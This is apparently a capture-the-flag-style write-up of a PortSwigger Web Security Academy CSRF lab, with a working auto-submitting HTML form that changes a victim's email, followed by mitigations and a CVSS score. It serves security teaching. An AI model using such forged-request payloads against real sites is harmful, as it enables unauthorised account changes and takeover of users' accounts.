


# CSRF Vulnerability with No Defenses

## Description

The application's email change functionality is vulnerable to Cross-Site Request Forgery (CSRF). The endpoint responsible for updating user email addresses does not implement any anti-CSRF protections such as CSRF tokens, SameSite cookie restrictions, Origin validation, or Referer validation.

As a result, an attacker can craft a malicious webpage that silently submits a request to the vulnerable endpoint. When a victim visits the attacker's page while authenticated to the target application, the browser automatically includes the victim's session cookie, causing the email change request to be processed successfully.

This vulnerability allows attackers to perform unauthorized actions on behalf of authenticated users.

---

## Steps to Exploit

### Phase 1: Identify Vulnerable Functionality

1. Login using valid credentials:

```text
Username: wiener
Password: peter
```

2. Navigate to the account page.
3. Change the registered email address.
4. Intercept the request using Burp Suite.
5. Observe the email update request:

```http
POST /my-account/change-email HTTP/2

email=test@csrf.com
```

6. Note the absence of any CSRF protection mechanisms.

---

### Phase 2: Create Malicious CSRF Payload

Construct a malicious HTML page:

```html
<html>
  <body>
    <form action="https://TARGET-LAB.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hacked@evil.com">
    </form>

    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

The JavaScript automatically submits the form when the page loads.

---

### Phase 3: Deliver the Attack

1. Upload the exploit to the PortSwigger exploit server.
2. Visit the exploit page while authenticated.
3. The browser automatically submits the forged request.
4. The email address is changed without user consent.
5. Deliver the exploit to the victim.
6. The lab is successfully solved.

---

## Proof of Concept

### Vulnerable Request

```http
POST /my-account/change-email HTTP/2
Host: TARGET-LAB.web-security-academy.net
Cookie: session=<victim-session>

email=hacked@evil.com
```

### CSRF Exploit

```html
<form action="https://TARGET-LAB.web-security-academy.net/my-account/change-email" method="POST">
  <input type="hidden" name="email" value="hacked@evil.com">
</form>

<script>
document.forms[0].submit();
</script>
```

### Result

The victim's email address is modified without their knowledge or consent.

---

## Screenshots

### Screenshot 1 – CSRF Proof of Concept

**Description:**

A malicious HTML form is created to automatically submit a forged request to the email change endpoint. The exploit contains a hidden email parameter and an auto-submit script.



---

### Screenshot 2 – Email Successfully Modified

**Description:**

After visiting the exploit page, the email address associated with the authenticated account is changed to the attacker-controlled value.


---

### Screenshot 3 – Lab Successfully Solved

**Description:**

PortSwigger confirms successful exploitation of the CSRF vulnerability.



---

## Impact

* Unauthorized modification of user account settings.
* Account takeover opportunities through email address changes.
* Execution of privileged actions on behalf of victims.
* Loss of user trust and account integrity.
* Potential escalation to complete account compromise.

---

## Mitigation / Remediation

1. Implement anti-CSRF tokens for all state-changing requests.
2. Validate CSRF tokens on the server side.
3. Use SameSite cookie attributes:

```http
Set-Cookie: session=xyz; SameSite=Strict
```

4. Validate Origin and Referer headers.
5. Require re-authentication for sensitive account changes.
6. Implement additional verification mechanisms for email changes.

---

## CVSS Score

**CVSS v3.1 Score:** 8.8 (High)

### Vector

```text
CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:H/I:H/A:N
```

---

## CVSS Justification

### Attack Vector

Network (N) – Exploitable remotely through a malicious website.

### Attack Complexity

Low (L) – Requires only a crafted HTML form.

### Privileges Required

None (N) – No attacker account is required.

### User Interaction

Required (R) – The victim must visit the malicious page.

### Scope

Unchanged (U) – Impact remains within the application boundary.

### Confidentiality Impact

High (H) – Attackers may gain control of account recovery mechanisms.

### Integrity Impact

High (H) – User account information is modified without authorization.

### Availability Impact

None (N) – Service functionality remains available.

---

## References

* OWASP Cross-Site Request Forgery Prevention Cheat Sheet
* OWASP Top 10 – Broken Access Control
* PortSwigger Web Security Academy – CSRF Vulnerability with No Defenses
